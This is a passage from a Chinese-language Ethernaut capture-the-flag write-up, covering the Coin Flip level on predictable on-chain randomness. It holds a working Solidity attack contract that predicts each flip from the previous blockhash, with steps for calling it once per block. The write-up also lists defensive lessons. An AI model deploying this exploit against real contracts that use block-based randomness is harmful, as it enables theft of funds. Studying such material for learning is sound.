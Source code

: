 学习要点：
- 构造函数的安全性
- 代码审计的重要性
- 新版本使用 `constructor` 关键字更安全

## 03. Coin Flip ✅ [Medium]

这关主要考察区块链的随机数问题：
- 链上随机数可以被预测
- `block.number` 等区块信息是公开的
- 攻击者可以在同一区块复制计算逻辑

攻击步骤：
1. 部署攻击合约复制游戏合约的计算逻辑
2. 手动调用 `attackCoin()` 十次（每次等待新区块）
3. 确认胜利次数达到10次

> 注意：不能使用循环连续调用 `attackCoin()` 十次，因为每次猜测都需要在不同区块中进行。如果在同一个区块中多次调用，会使用相同的 `blockhash`，导致预测结果相同。

攻击合约代码：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract attack {
    ICoinFlip public targetContract;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _targetAddress) {
        targetContract = ICoinFlip(_targetAddress);
    }

    function attackCoin() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        targetContract.flip(side);
    }
}
```

学习要点：
- 链上随机数的局限性
- 不应使用区块信息作为随机源
- 可以使用 Chainlink VRF 等预言机获取真随机数
- 理解区块链的时序性，每个区块的信息都是唯一的
